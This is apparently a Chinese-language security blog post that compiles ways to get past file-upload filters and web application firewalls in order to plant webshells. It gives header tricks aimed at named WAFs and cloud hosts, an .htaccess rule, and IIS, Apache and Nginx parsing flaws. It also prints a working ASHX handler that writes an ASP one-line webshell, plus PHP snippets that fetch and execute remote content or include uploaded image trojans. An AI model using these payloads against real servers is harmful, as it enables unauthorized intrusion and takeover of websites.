

Getshell | 文件上传绕过整理
WAF绕过
安全狗绕过
1.绕过思路：对文件的内容，数据。数据包进行处理。
关键点在这里Content-Disposition: form-data; name="file"; filename="ian.php"
将form-data; 修改为~form-data;
2.通过替换大小写来进行绕过
Content-Disposition: form-data; name="file"; filename="yjh.php"
Content-Type: application/octet-stream
将Content-Disposition 修改为content-Disposition
将 form-data 修改为Form-data
将 Content-Type 修改为content-Type
3.通过删减空格来进行绕过
Content-Disposition: form-data; name="file"; filename="yjh.php"
Content-Type: application/octet-stream
将Content-Disposition: form-data 冒号后面 增加或减少一个空格
将form-data; name="file"; 分号后面 增加或减少一个空格
将 Content-Type: application/octet-stream 冒号后面 增加一个空格
4.通过字符串拼接绕过
看Content-Disposition: form-data; name="file"; filename="yjh3.php"
将 form-data 修改为 f+orm-data
将 from-data 修改为 form-d+ata
5.双文件上传绕过
<form action="https://www.xxx.com/xxx.asp(php)" method="post"
name="form1" enctype="multipart/form‐data">
<input name="FileName1" type="FILE" class="tx1" size="40">
<input name="FileName2" type="FILE" class="tx1" size="40">
<input type="submit" name="Submit" value="上传">
</form>
6.HTTP header 属性值绕过
Content-Disposition: form-data; name="file"; filename="yjh.php"
我们通过替换form-data 为*来绕过
Content-Disposition: *; name="file"; filename="yjh.php"
7.HTTP header 属性名称绕过
源代码:
Content-Disposition: form-data; name="image"; filename="085733uykwusqcs8vw8wky.png"Content-Type: image/png
绕过内容如下：
Content-Disposition: form-data; name="image"; filename="085733uykwusqcs8vw8wky.png
C.php"
删除掉ontent-Type: image/jpeg只留下c，将.php加c后面即可，但是要注意额，双引号要跟着c.php".
8.等效替换绕过
原内容：
Content-Type: multipart/form-data; boundary=---------------------------471463142114
修改后:
Content-Type: multipart/form-data; boundary =---------------------------471463142114
boundary后面加入空格。
9.修改编码绕过
使用UTF-16、Unicode、双URL编码等等
WTS-WAF 绕过上传
原内容：
Content-Disposition: form-data; name="up_picture"; filename="xss.php"
添加回车
Content-Disposition: form-data; name="up_picture"; filename="xss.php"
百度云上传绕过
百度云绕过就简单的很多很多，在对文件名大小写上面没有检测php是过了的，Php就能过，或者PHP，一句话自己合成图片马用Xise连接即可。
Content-Disposition: form-data; name="up_picture"; filename="xss.jpg .Php"
阿里云上传绕过
源代码：
Content-Disposition: form-data; name="img_crop_file"; filename="1.jpg .Php"Content-Type: image/jpeg
修改如下：
Content-Disposition: form-data; name="img_crop_file"; filename="1.php"
没错，将=号这里回车删除掉Content-Type: image/jpeg即可绕过。
360主机上传绕过
源代码:
Content-Disposition: form-data; name="image"; filename="085733uykwusqcs8vw8wky.png"Content-Type: image/png
绕过内容如下：
Content- Disposition: form-data; name="image"; filename="085733uykwusqcs8vw8wky.png
Content-Disposition 修改为 Content-空格Disposition
MIME类型绕过
上传木马时，提示格式错误。直接抓包修改Content-Type 为正确的格式尝试绕过
文件内容检测绕过
抓包，在正常图片末尾添加一句话木马
多次上传Win特性绕过
多次上传同一个文件，windows会自动更新补全TEST (1).php。
有时会触发条件竞争，导致绕过。
条件竞争绕过
通过BURP不断发包，导致不断写入Webshell，再写入速度频率上超过安全软件查杀频率，导致绕过。
CONTENT-LENGTH绕过
针对这种类型的验证，我们可以通过上传一些非常短的恶意代码来绕过。上传文件的大小取决于，Web服务器上的最大长度限制。我们可以使用不同大小的文件来fuzzing上传程序，从而计算出它的限制范围。
文件内容检测绕过
针对文件内容检测的绕过，一般有两种方式，
1.制作图片马
2.文件幻术头绕过
垃圾数据填充绕过
修改HTTP请求，再之中加入大量垃圾数据。
黑名单后缀绕过
文件扩展名绕过
Php除了可以解析php后缀 还可以解析php2.php3，php4 后缀
ashx上传绕过
cer,asa,cdx等等无法使用时候。
解析后就会生成一个test.asp的马，你就可以连接这个test.asp 密码为:put
<%@ WebHandler Language="C#" Class="Handler" %>
using System;
using System.Web;
using System.IO;
public class Handler : IHttpHandler {
public void ProcessRequest (HttpContext context) {
context.Response.ContentType = "text/plain";
//这里会在目录下生成一个test.asp的文件
StreamWriter file1= File.CreateText(context.Server.MapPath("test.asp"));
//这里是写入一句话木马 密码是：ptu
file1.Write("<%response.clear:execute request("put"):response.End%>");
file1.Flush();
file1.Close();
}
public bool IsReusable {
get {
return false;
}
}
}
特殊文件名绕过
比如发送的 http包里把文件名改成 test.asp. 或 test.asp_(下划线为空格)，这种命名方式
在windows系统里是不被允许的，所以需要在 burp之类里进行修改，然后绕过验证后，会
被windows系统自动去掉后面的点和空格，但要注意Unix/Linux系统没有这个特性。
Windows流特性绕过
php在windows的时候如果文件名+"::$DATA"会把::$DATA之后的数据当成文件流处理,不会检测后缀名.且保持"::$DATA"之前的文件名。
白名单后缀绕过
00截断绕过上传
php .jpg 空格二进制20改为00
IIS 6.0 目录路径检测解析绕过
上传路径改为
XXX/1.asp/
htaccess解析漏洞
上传的jpg文件都会以php格式解析
.htaccess内容：
AddType application/x-httpd-php .jpg
突破MIME限制上传
方法：找一个正常的可上传的查看其的MIME类型，然后将马子的MIME改成合法的MIME即可。
Apache解析漏洞
1.一个文件名为test.x1.x2.x3的文件，apache会从x3的位置开始尝试解析，如果x3不属于apache能够解析的扩展名，那么apache会尝试去解析x2，直到能够解析到能够解析的为止，否则就会报错。
2.CVE-2017-15715，这个漏洞利用方式就是上传一个文件名最后带有换行符(只能是\x0A，如上传a.php，然后在burp中修改文件名为a.php\x0A)，以此来绕过一些黑名单过滤。
IIS解析漏洞
IIS6.0在解析asp格式的时候有两个解析漏洞，一个是如果目录名包含".asp"字符串，
那么这个目录下所有的文件都会按照asp去解析，另一个是只要文件名中含有".asp;"
会优先按asp来解析
IIS7.0/7.5是对php解析时有一个类似于Nginx的解析漏洞，对任意文件名只要在URL
后面追加上字符串"/任意文件名.php"就会按照php的方式去解析；
Nginx解析漏洞
解析：(任意文件名)/(任意文件名).php | (任意文件名)%00.php
描述：目前Nginx主要有这两种漏洞，一个是对任意文件名，在后面添加/任意文件名.php
的解析漏洞，比如原本文件名是test.jpg，可以添加为test.jpg/x.php进行解析攻击。
还有一种是对低版本的Nginx可以在任意文件名后面添加%00.php进行解析攻击。
解析漏洞
Content-Disposition: form-data; name="file"; filename=php.php;.jpg
前端限制绕过
1.使用BURP抓包修改后重放
2.或者使用浏览器中元素审查，修改允许或禁止上传文件类型。
下载绕过
远程下载文件绕过
<?php
$str = file_get_contents('http://127.0.0.1/ian.txt');
$str($_post['ian']);
?>
文件包含绕过
上传图片木马
$x=$_GET['x'];
include($x);
访问:http://www.xxxx.com/news.php?x=xxxxxx.jpg推荐阅读：
http://0-sec.org/

很多优质的文章和干货，后续还会继续更新
大家可以收藏下，笔记记录一波

推荐阅读：
PS：上述资料的解压密码需要重新再公众号后台回复1111，获得解压密码
以及社会工程学的文件需要重新保存下，解压密码才可以解压
参考来源：零组资料文库
已获授权，如有疑问，请联系小编